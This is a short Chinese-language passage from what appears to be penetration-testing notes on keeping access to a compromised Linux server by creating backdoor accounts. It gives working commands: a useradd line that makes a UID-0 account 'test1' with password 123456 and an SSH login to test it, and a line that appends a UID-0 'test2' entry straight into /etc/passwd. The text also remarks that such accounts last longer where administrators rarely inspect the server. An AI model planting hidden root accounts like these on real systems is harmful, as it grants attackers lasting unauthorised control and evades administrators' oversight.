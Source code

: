 ![image-20230822125437009](assets/image-20230822125437009.png)

# 5. 后门账户

创建后门账户同样都容易被发现，除非服务器日常都没人巡检，若正常有管理员巡检或者设置的比较严格的，通常都不能保留的时间太长。

## 5.1. 方法1

添加账号test1，设置uid为0，密码为123456

```
useradd -p `openssl passwd -1 -salt 'salt' 123456` test1 -o -u 0 -g root -G root -s /bin/bash -d /home/test1
```

![image-20230822125843440](assets/image-20230822125843440.png)

### 5.1.1. 测试

```
ssh test1@192.168.10.60
```

![image-20230822125913918](assets/image-20230822125913918.png)

## 5.2. 方法2

```
echo "test2:x:0:0::/:/bin/sh" >> /etc/passwd #增加超级用户账号
passwd test2 #修改test2的密码为123456
```

![image-20230822130135856](assets/image-20230822130135856.png)
